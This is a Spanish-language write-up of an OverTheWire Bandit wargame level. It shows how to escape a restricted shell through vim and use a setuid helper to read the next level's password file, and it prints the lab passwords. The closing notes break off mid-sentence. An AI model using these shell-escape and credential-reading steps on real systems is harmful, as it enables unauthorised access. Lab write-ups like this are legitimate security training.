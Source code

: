 ## Objetivo
Good job getting a shell! Now hurry and grab the password for bandit27!
## Datos de acceso al nivel
bandit26
c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
## Solución
```
 _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
~
~
~
~
~
~
~
~
:set shell=/bin/bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ ./bandit27-do
Run a command as another user.
  Example: ./bandit27-do id
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
```
## Notas adicionales
Podemos obtener una terminal si usamos el comando shell en vim pero antes asignando donde esta
## Referencias